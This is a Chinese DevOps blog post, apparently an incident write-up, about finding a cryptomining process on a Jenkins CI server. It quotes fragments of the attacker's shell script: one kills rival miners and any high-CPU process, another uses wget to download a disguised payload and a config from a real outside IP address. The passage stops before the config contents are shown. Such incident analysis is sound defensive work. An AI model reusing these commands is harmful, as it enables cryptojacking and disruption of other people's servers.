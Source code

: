 ```yaml
---
title:  你的 CI 在挖矿吗？
date: 2017-06-28
categories: 
- DevOps
tags:
- DevOps 文化
---
```


我们的持续集成服务器搭建在AWS上的一个EC2的虚拟机中。采用 Jenkins 2.46.1 并且只有一个Master实例来运行所有的任务。且采用持续部署——团队每天要在开发环境自动部署10+个版本。整个过程由Jenkins内部构建的流水线触发。代码提交，测试，构建，部署一气呵成。

我们有一个中心产品代码库，这个中心产品对应着不同国家的在线产品。分别是：新加坡，马来西亚，印度尼西亚和香港。为了安全起见，我们为每一个产品的环境单独部署了一套持续交付流水线。由于各地域产品的差异较小，我们采用同一套基础设施配置初始化Jenkins配置，因此，我们有四台差不多的持续交付流水线。

## 从一次“构建变慢“的调查说起

在周二的时候，突然有人发现”马来西亚“的部署流程开始变慢，其中构建过程从上周的的7分钟左右变成了44分钟。而同样的代码改动，其它国家的服务器并没有如此大的差异。

**那么问题一定在这个服务器上**！

影响构建速度的因素主要是资源的占用导致的等待，这方面的资源包括：CPU、内存、磁盘和网络。

由于我们采用NewRelic对所有的持续集成服务器进行监控。所以可以得到CPU、内存、磁盘和网络的性能监控数据以及横向的对比信息。通过对比相关的数据，我们发现这一台服务器上有个在/tmp目录下运行的叫\`donns\`的陌生进程长期占用大量CPU，它的文件权限属于Jenkins用户以及Jenkins用户组。所以这个程序的执行是由Jenkins出发了。

我们在Jenkins的相关网站里搜索这个名为donns进程的相关信息，但一无所获。于是我们在/tmp目录中寻找和这个进程相关的信息，我们发现了一个陌生的Shell脚本，打开内容看，内容却让我们大跌眼镜。以下是几个重要的脚本片段：

**代码片段 1**:

``` bash
pkill conns

ps auxw|head -1;ps auxw|sort -rn -k3|head -1|awk '{if(\$3\>80.0) print
"kill -9 " \$2}'|sh

pkill bonns
```

我们看到，这段代码杀死了占用CPU超过80%的进程。此外，杀死了名为conns和bonns的进程。

conns进程是什么？bonns进程又是什么？为什么要杀死CPU占用率超过80%的进程？

**代码片段 2**:

``` bash
wget 91.235.143.129:8086/587b626883fdc.png -O /tmp/conn

wget 91.235.143.129:8086/1eac80002f.conf -O /tmp/config.conf
```

从91.235.143.129:8086下载了一个图片和一个配置文件。这个服务器是干嘛的？这个配置文件又包含了哪些内容？

通过在自己的沙盒环境里打开这个配置文件，发现它的内容是这样的：
